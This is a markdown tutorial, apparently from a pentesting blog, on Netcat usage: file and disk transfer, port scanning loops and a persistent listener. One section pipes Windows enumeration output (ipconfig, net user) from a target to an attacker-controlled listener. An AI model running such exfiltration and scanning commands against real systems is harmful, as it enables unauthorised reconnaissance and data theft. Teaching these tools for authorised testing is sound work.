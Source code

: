 ```yaml
---
title: "Netcat"
date: "2022-06-08"
description: "This article looks at Netcat, a valuable tool in the pentesters toolbox. Hobbit released the original Netcat in 1995, but it hasn’t been maintained despite its popularity. It can sometimes be hard to find a copy of the v1.10 source code. The flexibility and usefulness of this tool prompted the Nmap Project to produce Ncat, a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more."
coverimage: NETCAT.jpg
tags: netcat
published: true
posttype: tutorial
---
```


# Netcat

First some brief points about Netcat
- All official versions are free of charge
- Works natively on Linux.
- Works natively on Apple Mac OS X.
- Works natively on Microsoft Windows.
- Features a command-line interface.
- Source code available for inspection.
- General-purpose tools
- Packet crafting tools

The `ncat` tool is a much better option in place of netcat or nc. 

We think `ncat` is better because of its support for multiple protocols and simultaneous connections and SSL.


## Overview

This simple utility reads and writes data across TCP or UDP network connections. It is designed to be a reliable back-end tool to use directly or easily drive by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need, including port binding to accept incoming connections.

> Netcat can operate in environments where you have low privileges, plus it is a standalone binary, meaning you can upload it to an environment and run it as is.
> Be warned that file transfers using Netcat are not encrypted, anyone on the network can grab what you are sending, so use this only on trusted networks.

## Standard Listen and Send

setup netcat in listening mode and save whatever is received to `in.txt`
```
root@box:/tmp/netcat# nc -w 1 -l -p 3000 > in.txt
```

From the sending end, we can pipe in a file called `out.txt` and send it to our listener.
```
nc -w 3 [destination] 3000 < out.txt
```

## Piping input

We can send data by sending output through a pipe to Netcat. Here we are outputting a file, but it could be several items.
```
C:\Documents and Settings\user> type c:\test.txt | c:\nc.exe 192.168.2.8 3000 -w1
```

On our kali box, we can set a while loop like follows.
```
root@evilsaint:/pentesting/enum# while true; do nc -w 4 -lvp 4321 >> enum.txt; done
```

And we can pipe enumeration commands back to our box.
```
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>ipconfig | nc64.exe 10.1.1.5 4321 -w 3
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>net user | nc64.exe 10.1.1.5 4321 -w 3
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>net account | nc64.exe 10.1.1.5 4321 -w 3
```

## Send with Compression (Linux to Linux)

On the receiving end
```
nc -l -p 1234 | uncompress -c | tar xvfp -
```

On the sending end
```
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## Sending a harddrive

It is possible using Netcat to pipe a hardrive

On the sender end run
```
dd if=/dev/hda3 | gzip -9 | nc -l 3333
```

On the receiver end,
```
nc [destination] 3333 | pv -b > hd-image.img.gz
```

### Port Scanning with Netcat

TCP scan of ports 3385 to 3395
```
nc -nvv -w 1 -z 10.0.0.1 3385-3395
```

UDP scan of ports 3385 to 3395
```
nc -unvv -w 1 -z 10.0.0.1 3385-3395
```

Small Bash Loop to loop through all the ports from 1 to 65535 for one IP
```
for i in $(seq 1 65535); do nc -nv -w 1 -z 10.0.0.1 $i ; done
```

Small Bash Loop to loop through all the IPs on our subnet and scan for ports 21-25
```
for i in {1..254}; do nc -vv -n -w 1 10.0.0.$i 21-25 -z; done
```

| Option | Description |
| --- | --- |
| -n | don't resolve first just use the IP address and don't try and use DNS to get a hostname |
| -vv | single -v is verbose, double v -vv is extra verbosity. |
| -u | UDP mode. |
| -w | equals the timeout in seconds for net reads |
| -z | Zero I/O mode used for scanning. |

### Makeshift Permanent Netcat Listener

`nohup` is a program you can use to run your application with such that its stdout/stderr can be sent to a file instead and such that closing the parent script won’t SIGHUP the child. However, you need to have the foresight to use it before starting the application. Because of how `nohup` works, you can’t just apply it to a running process.

`disown` is a bash builtin that removes a shell job from the shell’s job list. This means that you can’t use `fg`, `bg` on it anymore, but more importantly, when you close your shell, it won’t hang or send a SIGHUP to that child anymore. Unlike `nohup`, disown is used after the process has been launched and backgrounded.

Make a Netcat listener persistent.
```
while(1) nohup netcat -lvp 4444
```